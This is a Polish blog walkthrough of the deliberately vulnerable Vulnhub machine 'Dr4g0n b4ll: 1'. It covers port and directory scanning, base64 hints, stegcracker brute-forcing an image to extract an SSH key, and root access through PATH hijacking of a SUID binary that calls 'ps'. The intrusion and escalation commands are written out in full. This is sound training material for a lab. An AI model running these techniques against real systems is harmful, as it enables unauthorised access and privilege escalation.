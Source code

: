 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough  
tags:
  - Hacking
  - Vulnhub
  - Walkthrough
  - Dr4g0nB4ll
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
---
```


|:----|:----|
|Nazwa:|Dr4g0n b4ll: 1|
|Autor:|[Mr_xmen](https://www.vulnhub.com/author/mr_xmen,777/)|
|Wypuszczony:|14.01.2021|
|Do ściągnięcia:|[Stąd](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/) - Vulnhub|
|Poziom:|Łatwy|
|Nauczysz się:|Metasploit, Base64, Stegcracker, C|

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [**Grub**a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do **Dragon Ball**a, jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. :smiley:
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty **Nmap**em. Możemy pod **Metasploit**em, albo bez. Ja wolę użyć **Metasploit**a, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do **Shell**a, to niekoniecznie, czasami wolę się wbić normalnie przez **SSH**, niż potem ulepszać **Meterpreter**, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
## Co na stronie piszczy?
Otwarte są tylko 2 porty: **22** i **80**. Na Stronie **WWW** mamy zdjęcia z anime **Dragon Ball**.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
{: .text-justify}
```bash
# echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
# echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
# echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Radzę pisać z przełącznikiem **-n**, teraz odkoduje tak samo, ale podczas kodowania base64 bez **-n** wychodzą inne rzeczy,koduje dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie **Gobuster**em:
```bash
# gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy parę ciekawych rzeczy:
http://172.16.1.124/robots.txt
{: .text-justify}
{: .notice--info}
Ponownie dekodujemy:
{: .text-justify}
```bash
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
# echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Jest komunikat, żeby szukać ukryty katalog:
**http://172.16.1.113/DRAGON%20BALL/Vulnhub/**
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery3"  %}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .text-justify}
{: .notice--info}
{% include gallery id="gallery4"  %}
## Stenografia
Strona poprawnie nie działa, ale mamy login. i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
## Lądujemy do Shella
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
# ssh -i id_rsa xmen@172.16.1.113
```
Poszło:
Mamy ciekawy katalog script, ale poszukajmy plików, które mają ustawiony bit suid, może się coś ciekawego znajdzie:
{: .text-justify}
```bash
# xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Ciekawa jest zawartość: **/home/xmen/script/shell**
{: .text-justify}
```bash
# xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia **Root**a i uruchamia program **ps**:
{: .text-justify}
<div class="notice--primary" markdown="1">
demo.c
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
</div>
Program **./shell** uruchamia **ps** z uprawnieniami **root**a:
```bash
# xmen@debian:~/script$ ./shell
  PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
```
Nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program w katalogu domowym:
{: .text-justify}
```bash 
# file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym: **PATH="/home/xmen:$(echo $PATH)"**
{: .text-justify}
```bash
# xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# xmen@debian:~/script$ ./shell
# root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```
## Słowo na koniec
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
